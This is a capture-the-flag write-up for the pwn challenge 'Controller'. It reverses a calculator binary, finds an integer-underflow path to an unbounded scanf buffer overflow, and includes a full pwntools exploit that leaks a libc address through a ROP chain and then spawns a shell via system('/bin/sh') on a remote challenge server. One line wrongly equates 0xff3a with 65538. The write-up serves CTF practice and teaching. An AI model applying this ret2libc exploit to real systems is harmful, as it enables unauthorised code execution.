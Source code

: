 <div align="center">
    <h1>Controller</h1>
    <img src="https://img.shields.io/badge/category-pwn-00aaff" /> <img src="https://img.shields.io/badge/points-300-eaeaea" />
</div>


---

```txt
The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!
This challenge will raise 33 euros for a good cause.
```

---

## Table of Contents

- [Table of Contents](#table-of-contents)
- [recon](#recon)
  - [code & behaviour](#code--behaviour)
    - [`main`](#main)
    - [`calculator`](#calculator)
    - [`calc`](#calc)
  - [vulns](#vulns)
    - [buffer overflow](#buffer-overflow)
- [exploit](#exploit)
  - [script](#script)
  - [run](#run)

## recon

### code & behaviour

A bit of static & dynamic reversing gives us the following *major* functions and their respective behaviour:

#### `main`

```c
undefined8 main(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  calculator();
  return 0;
}
```

![image-20210423230623501](main.png)

#### `calculator`

```c
void calculator(void)
{
  char local_28 [28];
  int local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf("%s",local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

#### `calc`

```c
uint calc(void)
{
  ushort uVar1;
  float fVar2;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  local_10 = menu();
  if ((0x45 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
  }
  if (local_10 == 2) {
    local_c = sub(local_14,local_18,local_18);
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
    return local_c;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      local_c = add(local_14,local_18,local_18);
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
  }
  else {
    if (local_10 == 3) {
      uVar1 = mult(local_14,local_18,local_18);
      local_c = (uint)uVar1;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
    if (local_10 == 4) {
      fVar2 = (float)divi(local_14,local_18,local_18);
      local_c = (uint)(long)fVar2;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar2 & 0xffffffff);
      return local_c;
    }
  }
  printstr("Invalid operation, exiting..\n");
  return local_c;
}
```

![image-20210423231610148](calc.png)

### vulns

This first `pwn` binary has one serious vulnerability that we can exploit later on.

#### buffer overflow

This one can be found in the `calculator` function. If we manage to find an allowed mathematical operation that results in `0xff3a` (= `65538`), we will be prompted to enter a message for a problem report. Reading user input is achieved via `scanf`'s `%s` format string, without specifying a size limit...

```c
...
  if (local_c == 0xff3a) {
...
    __isoc99_scanf("%s",local_28);
...
```

## exploit

Ok. Step-by-step:

1. Use something like `0 - -65538` to achieve the desired result of `65538`. Abuse the buffer overflow to make `puts` leak an address from the GOT, allowing us to compute `libc`'s base in memory. Return to `calculator` after the leak.
2. Now, overwrite the stored instruction pointer once again (using the same tactics as in step 1) - this time, however, overwrite it with a ROP chain that will pop the address of `/bin/sh` in `libc`'s memory space into the `rdi` register and return to `system`.
3. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *
from argparse import ArgumentParser

# ================================== #
ODD: int        = 0xff3a
RIP_OFF: int    = 0x28
# ================================== #

def overflow(n: int) -> int:
    return pow(2,32) - n

def do_overflow(r: tubes.tube.tube) -> None:
    r.recvuntil(b'recources: ')
    r.sendline(f'0 {overflow(ODD)}'.encode())
    r.recvuntil(b'> ')
    r.sendline(b'2')

def main():
    context.clear(arch='amd64')

    parser: ArgumentParser = ArgumentParser()
    parser.add_argument('--debug', action='store_true', help='Debug?')
    parser.add_argument('--remote', action='store_true', help='Remote?')
    args = parser.parse_args()

    p: ELF = ELF('./controller')

    if args.remote:
        l: ELF = ELF('./libc.so.6') 
        r = remote('138.68.147.232', 31712)
    else:
        l: ELF = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
        r = process(p.path)

    if args.debug:
        gdb.attach(r, 'b *calculator+56')

    do_overflow(r)

    leakr: ROP = ROP(p)
    leakr.puts(p.sym['got.puts'])
    leakr.call(p.sym['calculator'])

    r.recvuntil(b'> ')
    r.sendline(b'y'.ljust(RIP_OFF, b'x') + leakr.chain())

    r.recvuntil(b'reported!\n')
    puts_addr: int = u64(r.recvuntil(b'\n').strip().ljust(8, b'\x00'))
    print(f'[*] Leaked puts@got = 0x{puts_addr:x} ... ')
    l.address = puts_addr - l.sym['puts']
    print(f'[*] Calculated libc base = 0x{l.address:x} ... ')
    do_overflow(r)
    
    drop: ROP = ROP(p)
    drop.call(drop.ret.address)
    drop.call(l.sym['system'], [next(l.search(b'/bin/sh\x00')),])
    print(f'[*] Sending ROP payload: ')
    print(drop.dump())

    r.recvuntil(b'> ')
    r.sendline(b'y'.ljust(RIP_OFF, b'x') + drop.chain())

    r.interactive()

if __name__ == '__main__':
    main()
```

### run

![image-20210423234331041](exploit.png)

<h4 align="center">
    CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
</h4>


---

... m4ttm00ny (April 2021)
